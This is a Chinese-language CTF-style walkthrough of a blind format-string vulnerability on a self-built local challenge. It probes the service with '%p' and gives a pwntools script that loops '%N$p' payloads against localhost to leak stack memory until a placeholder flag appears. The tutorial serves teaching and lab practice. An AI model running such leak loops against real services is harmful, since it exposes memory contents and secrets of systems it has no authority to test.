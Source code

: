 由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

## 例子1-泄露栈

源码和部署文件均放在了对应的文件夹fmt_blind_stack中。

### 确定程序位数

我们随便输入了%p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告诉我们flag在栈上，同时知道了该程序是64位的，而且应该有格式化字符串漏洞。

### 利用

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```

最后在输出中简单看了看，得到flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```
